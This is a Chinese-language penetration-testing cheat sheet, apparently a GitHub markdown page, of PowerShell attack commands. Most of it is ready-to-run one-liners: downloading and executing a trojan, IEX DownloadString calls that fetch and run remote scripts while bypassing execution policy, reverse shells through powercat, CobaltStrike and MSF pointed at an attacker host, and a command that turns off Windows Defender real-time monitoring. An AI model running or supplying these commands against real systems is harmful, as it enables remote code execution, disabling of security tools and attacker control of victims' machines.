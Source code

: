 - 有多种命令，Invork-WebRequest，WebClient对象，BitsTransfer模块。

- **IEX（Invoke-Expression的别名）：用来把字符串当作命令执行，加了这个命令就不用再加`-c`命令了。**

- 主要使用WebClient对象

    - `(New-Object System.Net.Webclient).DownloadString('url')` 下载文件到字符串变量里面。
    -  `(new-object system.net.webclient).downloadfile('url','d:/test.exe');`   下载文件到本地，支持相对路径，绝对路径。

- cmd下

     ```cmd
     #下载文件到指定目录
     powershell (new-object system.net.webclient).downloadfile('http://192.168.10.11/test.exe','d:/test.exe');
     #下载文件到当前目录
     powershell (new-object system.net.webclient).downloadfile('http://192.168.10.11/test.exe','./test.exe');
     
     #远程下载木马文件并执行：
     powershell (new-object system.net.webclient).downloadfile('http://192.168.10.11/test.exe','test.exe');start-process test.exe
     
     远程下载 test.ps1 脚本，直接执行，该命令可以绕过powershell的执行策略。
     powershell  IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.10.11/test.ps1')
     
     远程下载 powercat.ps1 脚本，并带参数运行，该命令可以绕过powershell的执行策略：
     powershell -exec bypass IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 192.168.10.11 -p 8888 -e cmd
     
     ```

### 渗透常用PowerShell命令

```shell
#关闭Windows自带的Defender防火墙(需要管理员权限)
powershell Set-MpPreference -disablerealtimeMonitoring $true   

#下载文件
powershell (new-object system.net.webclient).downloadfile('http://192.168.10.11/test.exe','d:/test.exe');

#反弹NC shell  ：
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 192.168.10.11 -p 8888 -e cmd

#反弹CobaltStrike shell 
powershell.exe  IEX ((new-object net.webclient).downloadstring('http://xx.xx.xx.xx/XXX.ps1'))

#反弹MSF shell 
powershell  IEX (New-Object Net.WebClient).DownloadString('http://xx.xx.xx.xx/7788.ps1');xx.ps1

```

### 使用base64对poweshell命令进行编码
